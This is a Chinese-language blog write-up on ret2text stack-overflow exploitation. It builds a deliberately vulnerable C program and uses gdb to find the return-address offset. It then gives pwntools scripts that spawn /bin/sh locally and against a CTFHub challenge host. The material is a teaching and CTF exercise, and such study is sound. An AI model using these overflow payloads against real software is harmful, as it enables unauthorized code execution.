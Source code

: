 ```yaml
---
layout: post
title:  "ret2text ROP"
date:   2021-06-04 11:45:00 +0800
tags: stackoverflow ROP binary
color: rgb(240,180,90)
cover: '../assets/papercover/cute.png'
subtitle: 'ret2text ROP analyze by yako33!'
---
```


[TOC]

### ret2text


#### ELF

```
file ./pwn
```

./pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9dc32140f0e317f9e6a59b9a226a5123e34ace21, not stripped

在计算机科学中，是一种用于[二进制文件](https://baike.baidu.com/item/二进制文件/996661)、[可执行文件](https://baike.baidu.com/item/可执行文件)、[目标代码](https://baike.baidu.com/item/目标代码/9407934)、共享库和核心转储格式文件。

是UNIX系统实验室（[USL](https://baike.baidu.com/item/USL)）作为应用程序二进制接口（Application Binary Interface，[ABI](https://baike.baidu.com/item/ABI)）而开发和发布的，也是[Linux](https://baike.baidu.com/item/Linux/27050)的主要可执行文件格式。

```
checksec pwn
```

检查保护机制——无保护机制

```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

#### 前言

关于栈溢出漏洞主要的利用方式是ROP(Return Oriented Programming)，即返回导向编程，通过栈溢出内容覆盖返回地址，使其跳转到我们想要执行恶意代码的位置中。而跳转的目标有可能是一段本就已经写好的可以执行恶意命令的函数，也有可能是某个全局变量空间，甚至构造一个系统调用的cpu指令，跳转到一个libc中的函数等。最终目的都是执行恶意命令。计算机发展迭代中对于栈溢出的保护手段也越来越完善，限于ALSR，PIP等等，本文对基础的栈溢出进行一些简单的学习。

#### ret2text原理

控制返回地址指向程序本身已有的的代码(.text)并执行

```C++
#include <stdlib.h>
int sys(){
	system("/bin/sh");
}
int func(){
	char a[10];
	gets(a);
	puts(a);
}
int main(){
	func();
}	
```

vim ret2.c编辑一个简单C文件

```
gcc -g -fno-stack-protector -no-pie -o ret2 ret2.c
```

无保护编译，-fno关闭所有栈帧保护

#### 分析

从程序代码上看，分成三个部分，main,func,sys三个函数，sys函数中调用了/bin/sh，函数中，char a为[10]，

gets() 函数的功能是从输入缓冲区中读取一个字符串存储到字符指针变量 str 所指向的内存空间。使用 gets() 时，系统会将最后“敲”的换行符从缓冲区中取出来，然后丢弃，所以缓冲区中不会遗留换行符。

输出字符串时都使用printf，通过“%s”输出字符串,更简单的方法就是使用 puts() 函数。

这里获取输入的char a——gets——puts

程序中获取charA的gets函数无限制的取出char，突破char[10]的限制，造成在缓冲区取数据的时候造成程序溢出

```bash
gdb ret2
```

```
l(L)
```

查看源代码

b gets可以断点到gets函数

```
b 6
```

在第六行添加Int3断点

```
r
```

运行程序

第六行刚刚进入func内部，查看此时程序断下

<ul>
<li  markdown="1" style="list-style-type: none;">
![1]({{site.url}}/screenshot/20210604ret2textROP/1.png)
</li>
</ul>

查看此时的信息，断点位置，反汇编查看sys的地址

```bash
disassemble sys
```

入口地址为0x4005b6也就是sys的地址

```bash
i r rbp
```

```bash
p &a
```

查看当前rbp 变量a的地址

<ul>
<li  markdown="1" style="list-style-type: none;">
![1]({{site.url}}/screenshot/20210604ret2textROP/2.png)
</li>
</ul>

rbp的地址 ffde40  变量a的地址 ffde30 

#### 构造payload

func的返回地址是rbp的地址+8  =  rbp+8 = 0xffde40+8 = 0xffde48

填充a变量直到返回地址，然后讲后面的8个字节的地址改为sys的地址0x4005b6

偏移地址=输入“A”引发程序崩溃，把崩溃地址写入Payload

```python
from pwn import *

p = process("./ret2")
payload = "A" * 24 + p32(0x4005b6)
#payload = "A" * 10
p.sendline(payload)
p.interactive()

```


<ul>
<li  markdown="1" style="list-style-type: none;">
![1]({{site.url}}/screenshot/20210604ret2textROP/3.png)
</li>
</ul>


#### 分析栈帧异常

在溢出中，可以看到stack的分析

gets函数重新指向main函数时，进行了push rbp的操作

<ul>
<li  markdown="1" style="list-style-type: none;">
![1]({{site.url}}/screenshot/20210604ret2textROP/4.png)
</li>
</ul>

也就是说，我们让rbp的地址，指向到sys的地址


#### CTF ret2text

通过ida pro分析

<ul>
<li  markdown="1" style="list-style-type: none;">
![1]({{site.url}}/screenshot/20210604ret2textROP/5.png)
</li>
</ul>


这里也可以上述例子非常的像，gets函数可以引发栈溢出漏洞
在gets函数的跟踪当中可以找到secure F5反汇编

```C++
int secure()
{
  unsigned int v0; // eax
  int result; // eax
  int v2; // [rsp+8h] [rbp-8h] BYREF
  int v3; // [rsp+Ch] [rbp-4h]

  v0 = time(0LL);
  srand(v0);
  v3 = rand();
  __isoc99_scanf(&unk_4008C8, &v2);
  result = v2;
  if ( v3 == v2 )
    result = system("/bin/sh");
  return result;
}
```

此处也调用了/bin/sh的系统命令，也就是我们需要利用这个函数，让异常引发指向他，
需要填充垃圾数据区覆盖原本的ebp的地址，让程序指针指向rbp

适度添加滑块以保证覆盖地址和提高exp命中率

```python
from pwn import *
host = 'challenge-6d9543332f6f24b5.sandbox.ctfhub.com'
port = 22474
#p = process("./pwn")
p = connect(host, port)
payload = 'A' * 0x78 + p64(0x4007b8)
p.sendline(payload)
p.interactive()
```


网上已有非常多的wp，此处给出，连接后查看路径下的flag文件
代码中，python3由于数据要求，p64要求不能直接连接str，会引发EOF错误，这里使用python2，在python2中，如果由于系统原因引发错误，此处可以尝试使用p32()

<ul>
<li  markdown="1" style="list-style-type: none;">
![1]({{site.url}}/screenshot/20210604ret2textROP/6.png)
</li>
</ul>

